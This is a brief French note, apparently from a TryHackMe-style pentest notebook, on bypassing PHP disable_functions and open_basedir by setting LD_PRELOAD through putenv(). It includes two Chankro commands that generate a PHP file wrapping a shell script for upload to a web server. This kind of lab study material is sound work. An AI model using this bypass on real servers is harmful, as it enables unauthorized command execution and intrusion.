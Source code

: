 Les fonctions telles que `system()` ou `shell_exec()`sont souvent désactivées via les directives PHP définies dans le fichier de configuration `php.ini`. 

D'autres fonctions, peut-être moins connues sous le nom de `dl()` peuvent passer inaperçues auprès de l'administrateur système et ne pas être désactivées. 

Grâce à la fonction `putenv()`, nous pouvons modifier les variables d'environnement, nous permettant d'attribuer la valeur souhaitée à la variable `LD_PRELOAD`

L'outil #chankro nous permet d'échapper aux `Disable_functions` et `open_basedir`
https://www.tarlogic.com/es/blog/evadir-disable_functions-open_basedir/

```sh
python chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html
```

#Remember
Dans le fichier `phpinfo.php` regarder les options suivantes:
- disable_functions
- SCRIPT_FILENAME

```sh
python chankro.py --arch 64 --input c.sh --output tryhackme.php --path SCRIPT_FILENAME + uploads
```


